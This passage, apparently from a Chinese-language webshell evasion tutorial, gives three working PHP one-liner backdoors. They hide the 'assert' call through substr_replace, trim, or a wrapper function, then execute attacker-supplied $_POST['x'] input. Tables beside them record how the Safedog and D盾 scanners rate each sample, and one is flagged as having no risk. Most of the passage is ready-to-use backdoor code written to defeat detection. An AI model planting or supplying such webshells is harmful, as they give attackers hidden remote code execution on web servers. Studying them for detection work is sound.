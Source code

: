 ```php
<?php 
    $a = substr_replace("asxxx","sert",2);
    $a($_POST['x']);
?>  
```

| 安全狗       | D盾                   |
| :----------- | :-------------------- |
| 0 个安全风险 | 级别 1 (可疑)变量函数 |

#### trim()

```php
trim(string,charlist)
```

trim() 函数移除字符串两侧的空白字符或其他预定义字符。

| 参数       | 描述                                                         |
| :--------- | :----------------------------------------------------------- |
| *string*   | 必需。规定要检查的字符串。                                   |
| *charlist* | 可选。规定从字符串中删除哪些字符。如果被省略，则移除以下所有字符 `\0` - NULL; `\t` - 制表符; `\n` - 换行; `\x0B` - 垂直制表符; `\r` - 回车; **空格** |

```php
<?php 
    $a = trim(' assert ');
    $a($_POST['x']);
?>
```

| 安全狗       | D盾                 |
| :----------- | :------------------ |
| 0 个安全风险 | 级别 4 变量函数后门 |

![0lmXtA.png](https://s1.ax1x.com/2020/10/02/0lmXtA.png)



### 函数绕过

函数可以把敏感关键词当做参数传递。

```php
<?php 
    function sqlsec($a){
        $a($_POST['x']);
    }
    sqlsec(assert);
?>
```

| 安全狗                      | D盾                 |
| :-------------------------- | :------------------ |
| 1 个安全风险 assert变量函数 | 级别 2 变量函数后门 |
